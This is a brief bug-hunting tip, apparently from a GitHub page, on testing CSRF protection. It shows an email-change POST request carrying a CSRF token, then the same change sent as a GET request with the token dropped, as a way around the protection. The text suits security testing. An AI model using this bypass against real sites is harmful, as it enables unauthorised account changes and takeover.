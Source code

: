 #                   Test CSRF

## Case 1:
**Whne you see there is protection of CSRF token you can by it via GET request.**
```
POST /email/change-email HTTP/1.1
Host: example.com
....


email=bughunter2c@gmail.com&csrf=xyz...
```
_To_
```
GET /email/change-email?email=bughunter2c@gmail.com HTTP/1.1
Host: example.com
...
Xhz...
```
